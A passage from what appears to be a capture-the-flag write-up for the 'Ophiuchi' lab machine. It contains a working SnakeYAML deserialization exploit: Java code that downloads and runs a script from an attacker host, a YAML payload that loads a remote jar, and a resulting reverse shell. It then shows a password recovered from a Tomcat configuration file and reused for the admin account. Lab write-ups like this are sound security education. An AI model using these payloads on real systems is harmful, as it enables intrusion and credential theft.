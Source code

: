 ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.10.10/payload -O /tmp/exploit.sh");
            Runtime.getRuntime().exec("chmod a+x /tmp/exploit.sh");
            Runtime.getRuntime().exec("bash /tmp/exploit.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

After modified, compiled the class and copied to the path where it was being called from:

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

After that, as well as copying the payload file to be executed, sent the payload below on the webpage

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.10/yaml-payload.jar"]
  ]]
]
```

And voilá! We got a reverse shell in the box! :smile:

```bash
bash-5.0$ hostname && id
ophiuchi
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
bash-5.0$
```

## User flag

Started the enumeration, as usual, using `linpeas.sh`, where I could identify the following points:

- Tomcat service running with its specific account, allowing us to read the app files and logs
- Enumerating the users in this box, found **admin**, the only one with console access (besides root).

With this information, verified the creds for Tomcat from `/opt/tomcat/conf/tomcat-users.xml` file, where the password **whythereisalimit** was found.

```xml
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

Testing it for the user admin, we have confirmed that it was valid.

![Ophiuchi - Tomcat Manager](https://i.imgur.com/x7m50Ah.png){: .align-center}
